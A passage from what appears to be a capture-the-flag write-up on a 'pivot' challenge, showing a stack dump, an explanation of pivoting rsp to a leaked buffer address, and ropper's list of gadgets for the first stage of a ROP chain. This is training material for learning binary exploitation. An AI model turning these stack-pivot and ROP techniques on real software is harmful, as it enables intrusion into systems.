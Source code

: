 ```text
0x7fffffffdcf8:	0x00007fffffffddc8	0x0000000100000000
0x7fffffffdd08:	0x0000000000400996	0x0000000000000000
```

With that process, we can see that there is space for only three `qwords`. And with those `qwords` we have to somehow pivot our space into a bigger one.

But if you've paid attention during the disassembly, we can see that while running it, binary prints an address of the buffer, that is also used in the first `fgets`. With that, we can quite nicely change the value of `rsp` to point to that buffer, which will hold our second stage of the ROP chain.

Now, let's use `ropper` to get all gadgets available in the binary. From that, we can form first stage of our exploit. 

```text
[w3ndige@main pivot]$ ropper --file pivot 
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%



Gadgets
=======


0x0000000000400b7f: add bl, dh; ret; 
0x0000000000400984: add byte ptr [rax - 0x7b], cl; sal byte ptr [rcx + rsi*8 + 0x55], 0x48; mov ebp, esp; call rax; 
0x0000000000400b7d: add byte ptr [rax], al; add bl, dh; ret; 
0x0000000000400982: add byte ptr [rax], al; add byte ptr [rax - 0x7b], cl; sal byte ptr [rcx + rsi*8 + 0x55], 0x48; mov ebp, esp; call rax; 
0x0000000000400b7b: add byte ptr [rax], al; add byte ptr [rax], al; add bl, dh; ret; 
0x00000000004008fc: add byte ptr [rax], al; add byte ptr [rax], al; pop rbp; ret; 
0x0000000000400a35: add byte ptr [rax], al; add byte ptr [rax], al; leave; ret; 
0x0000000000400a36: add byte ptr [rax], al; add cl, cl; ret; 
0x00000000004007cb: add byte ptr [rax], al; add rsp, 8; ret; 
0x0000000000400af3: add byte ptr [rax], al; call 0x880; nop word ptr [rax + rax]; pop rax; ret; 
0x0000000000400ad5: add byte ptr [rax], al; mov rdi, rax; call 0x840; nop; leave; ret; 
0x0000000000400afe: add byte ptr [rax], al; pop rax; ret; 
0x00000000004008fe: add byte ptr [rax], al; pop rbp; ret; 
0x0000000000400b82: add byte ptr [rax], al; sub rsp, 8; add rsp, 8; ret; 
0x0000000000400a37: add byte ptr [rax], al; leave; ret; 
0x0000000000400afd: add byte ptr [rax], r8b; pop rax; ret; 
0x0000000000400a38: add cl, cl; ret; 
0x0000000000400af1: add dword ptr [rax], eax; add byte ptr [rax], al; call 0x880; nop word ptr [rax + rax]; pop rax; ret; 
0x0000000000400964: add eax, 0x20173e; add ebx, esi; ret; 
0x0000000000400b0a: add eax, ebp; ret; 
0x0000000000400969: add ebx, esi; ret; 
0x00000000004007ce: add esp, 8; ret; 
0x0000000000400b09: add rax, rbp; ret; 
0x00000000004007cd: add rsp, 8; ret; 
0x00000000004008f2: and byte ptr [rax], ah; jmp rax; 
0x0000000000400967: and byte ptr [rax], al; add ebx, esi; ret; 
0x0000000000400a25: call 0x7f0; mov edi, 0x400bb6; call 0x800; mov eax, 0; leave; ret; 
0x0000000000400a2f: call 0x800; mov eax, 0; leave; ret; 
0x0000000000400ada: call 0x840; nop; leave; ret; 
0x0000000000400aeb: call 0x850; mov edi, 1; call 0x880; nop word ptr [rax + rax]; pop rax; ret; 
0x0000000000400af5: call 0x880; nop word ptr [rax + rax]; pop rax; ret; 
0x0000000000400995: call qword ptr [rbp + 0x48]; 
0x000000000040098e: call rax; 
0x0000000000400ca3: call rsp; 
0x0000000000400b5c: fmul qword ptr [rax - 0x7d]; ret; 
0x0000000000400d9b: jmp qword ptr [rbp]; 
```